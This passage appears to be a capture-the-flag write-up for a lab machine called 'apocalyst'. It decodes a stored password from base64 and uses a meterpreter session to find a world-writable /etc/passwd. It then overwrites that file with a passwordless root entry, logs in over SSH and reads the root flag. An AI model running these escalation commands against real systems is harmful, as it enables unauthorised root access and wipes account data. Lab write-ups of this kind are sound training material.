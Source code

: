 ```{r, engine='bash', count_lines}
echo S2VlcCBmb3JnZXR0aW5nIHBhc3N3b3JkIHNvIHRoaXMgd2lsbCBrZWVwIGl0IHNhZmUhDQpZMHVBSU50RzM3VGlOZ1RIIXNVemVyc1A0c3M= | base64 --decode

Keep forgetting password so this will keep it safe!
Y0uAINtG37TiNgTH!sUzersP4ss
```

Lets get some more information:

```{r, engine='bash', count_lines}
meterpreter > ls -la /etc/

bla bla bla
100666/rw-rw-rw-  1637   fil   2017-07-26 08:38:49 -0400  passwd
bla bla bla
```
Wait, we can write into the passwd file? Let#s just set our own root password then or leave it empty for no password.
```{r, engine='bash', count_lines}
echo root::0:0:root:/root:/bin/bash > /etc/passwd
```

Okay let's try to ssh into the machine with these creds: **falaraki:Y0uAINtG37TiNgTH!sUzersP4ss**

```{r, engine='bash', count_lines}
sh falaraki@10.10.10.46
falaraki@10.10.10.46's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

120 packages can be updated.
61 updates are security updates.


Last login: Thu Jul 27 12:09:11 2017 from 10.0.2.15
falaraki@apocalyst:~$ 
```
Nice! There shouldnt be a root password atm..

```{r, engine='bash', count_lines}
falaraki@apocalyst:~$ su 
root@apocalyst:/home/falaraki# cd /root
root@apocalyst:~# cat root.txt
1cb9d00f62d6015e07e58fa02caaf57f

```

GG WP
